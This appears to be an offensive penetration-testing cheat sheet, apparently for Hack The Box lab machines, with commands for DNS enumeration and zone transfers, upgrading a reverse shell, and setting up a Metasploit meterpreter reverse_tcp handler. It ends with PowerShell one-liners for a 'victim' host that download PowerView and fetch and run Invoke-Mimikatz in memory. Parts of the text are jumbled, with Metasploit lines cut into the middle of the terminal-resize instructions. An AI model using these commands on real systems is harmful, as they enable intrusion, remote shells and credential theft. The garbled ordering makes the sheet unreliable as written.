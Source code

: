 dnsrecon -r 127.0.0.0/24 -n 10.10.10.161

dnsrecon -r 127.0.1.0/24 -n 10.10.10.161

dnsrecon -r 10.10.10.0/24 -n 10.10.10.161


dig axfr @10.10.10.161

dig axfr bank.htb @10.10.10.161

## Upgrading Reverse Shells to be Fully Interactive
python -c "import pty; pty.spawn('/bin/bash')"
Press Ctrl+Z to background your reverse shell, then in your local machine run: 
- stty raw -echo
- fg

Type reset and hit return. You should be presented with a fully interactive shell. You’re welcome.

There’s still one little niggling thing that can happen, the shell might not be the correct height/width for your terminal. To fix this, go to your local machine and run:

stty size

msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf5 > use exploit/multi/handler


msf5 exploit(multi/handler) > set lhost 10.10.14.17
lhost => 10.10.14.17
msf5 exploit(multi/handler) > set lport 8080
lport => 8080This should return two numbers, which are the number of rows and columns in your terminal. For example’s sake let’s say this command returned 48 120 Head on back to your victim box’s shell and run the following.

stty -rows 48 -columns 120

# File Transfer to Victim

## PowerShell - BASE64
- KALI: `cat file | base64 -w 0;echo`
- VICTIM: `[IO.Fi[IO.File]::WriteAllBytes("C:\Users\Public\file", [Convert]::FromBase64String("LS0t......="))`

## PowerShell - DownloadFile
- VICTIM: `(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')`

- VICTIM: `(New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'PowerViewAsync.ps1')`

## PowerShell - IEX
- VICTIM: `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')`
 